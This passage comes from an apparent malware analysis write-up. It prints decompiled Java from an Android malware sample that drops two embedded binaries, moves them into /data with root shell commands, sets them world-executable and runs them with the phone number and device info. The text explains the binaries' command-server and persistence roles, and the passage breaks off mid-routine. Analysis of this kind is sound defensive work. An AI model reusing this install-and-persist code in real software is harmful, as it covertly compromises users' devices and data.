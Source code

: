 ### Rooted device

The decompiled code of the routine `InstallAsRoot` is as follows:

> ```java
>private boolean InstallAsRoot(){
>	try{
>		InputStream inputStream = getResources().openRawResource(R.raw.aps_exec);
>		InputStream inputStream1 = getResources().openRawResource(R.raw.aps_exec_watch_dog);
>		WriteRawResources(inputStream, Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(this.context));
>		WriteRawResources(inputStream1, Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(this.context));
>		if (RootCommandExecutor.Execute(this.context)) {
>			return true;
>		}
>		new File(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(this.context)).delete();
>		new File(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(this.context)).delete();
>		return false;
>	}
>	catch (Exception e){
>		try{
>			new File(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(this.context)).delete();
>			new File(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(this.context)).delete();
>			return false;
>		}
>		catch (Exception e) {}
>	}
>	return false;
>}
> ```

The malware loads two binaries (located in res/raw/) and executes them. The first one, `aps_exec`, handles communication with the server, whereas `aps_exec_watch_dog` ensures
the persistency of `aps_exec`.

The routine `RootCommandExecutor.Execute` is as follows:

> ```java
>public static boolean Execute(Context context) {
>	Command command = new Command(0, new String[]{
>		"cat " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(context) + " > /data/" + Utilities.GetWatchDogName(context),
>		"cat " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(context) + " > /data/" + Utilities.GetExecName(context),
>		"rm " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(context),
>		"rm " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(context),
>		"chmod 777 /data/" + Utilities.GetWatchDogName(context),
>		"chmod 777 /data/" + Utilities.GetExecName(context),
>		"/data/" + Utilities.GetWatchDogName(context) + " " + Utilities.GetDeviceInfoCommandLineArgs(context) + " /data/" + Utilities.GetExecName(context) + " " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExchangeFileName(context) + " " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + " " + Utilities.GetPhoneNumber(context)});
>	try {
>		RootTools.getShell(true).add(command);
>		return true;
>	} catch (Exception e) {
>		Log.d("CPS", e.getMessage());